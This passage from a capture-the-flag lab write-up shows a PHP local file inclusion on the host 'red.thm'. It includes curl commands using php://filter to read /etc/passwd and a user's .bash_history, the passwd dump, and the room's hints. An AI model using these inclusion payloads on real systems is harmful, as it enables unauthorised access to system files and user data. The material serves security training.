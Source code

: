 Now, we are  able to retrieve the /etc/passwd file from the machine using the PHP wrapper php\://filter/resource=

```abap
curl http://red.thm/index.php?page=php://filter/resource=/etc/passwd
```

```abap
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

We see that theres a red and blue user. However looking back at the hints above we see this. So that means the passwords have been changed but only slightly

```abap
1. Red has been known to kick adversaries out of the machine. Is there a way around it?
2. Red likes to change adversaries' passwords but tends to keep them relatively the same.
3. Red likes to taunt adversaries in order to throw off their focus. Keep your mind sharp!
```

```abap
curl http://red.thm/index.php?page=php://filter/resource=/home/blue/.bash_history
```
